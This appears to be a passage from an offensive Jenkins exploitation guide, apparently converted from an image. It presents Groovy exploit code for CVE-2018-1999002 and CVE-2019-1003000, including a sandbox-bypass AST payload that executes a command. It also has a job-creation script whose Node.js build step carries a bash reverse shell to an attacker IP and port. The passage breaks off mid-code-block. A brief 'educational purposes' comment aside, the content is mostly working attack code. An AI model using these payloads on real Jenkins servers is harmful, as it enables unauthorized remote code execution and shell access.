 
---

## Known Vulnerability Exploitation

### CVE-2018-1999002 & CVE-2019-1003000

#### Pre-Authentication RCE Exploitation
```groovy
// Exploit for Jenkins dynamic routing bypass (CVE-2018-1999002)
// Combined with sandbox bypass (CVE-2019-1003000)
// Note: This affects Jenkins version 2.137 and earlier

def exploitDynamicRouting() {
    try {
        println "[+] Attempting CVE-2018-1999002 / CVE-2019-1003000 exploitation"
        
        // This exploit requires specific conditions and affects older versions
        // Implementation would depend on the specific Jenkins version and configuration
        
        def maliciousGroovy = '''
@groovy.transform.ASTTest(value={
    assert java.lang.Runtime.getRuntime().exec("calc.exe")
})
def x
'''
        
        // The actual exploitation would involve bypassing the sandbox
        // and executing arbitrary code through crafted Groovy scripts
        
        println "[+] Exploit payload prepared"
        println "[!] This exploit works on Jenkins 2.137 and earlier"
        println "[!] Current protection mechanisms may prevent execution"
        
    } catch (Exception e) {
        println "Exploit failed: ${e.getMessage()}"
    }
}

// Note: This is for educational purposes and requires appropriate authorization
// exploitDynamicRouting()
```

### Jenkins 2.150.2 Node.js RCE

#### Job Creation Privilege Abuse
```groovy
// Exploit for Jenkins 2.150.2 Node.js RCE vulnerability
// Requires JOB creation and BUILD privileges

def createNodeJSRCEJob(String jobName, String attackerIP, int port) {
    try {
        def jenkins = Jenkins.instance
        
        // Create a freestyle project with Node.js build step
        def project = new hudson.model.FreeStyleProject(jenkins, jobName)
        
        // Node.js malicious script
        def nodeScript = """
const { exec } = require('child_process');

// Reverse shell payload
const payload = 'bash -i >& /dev/tcp/$attackerIP/$port 0>&1';

```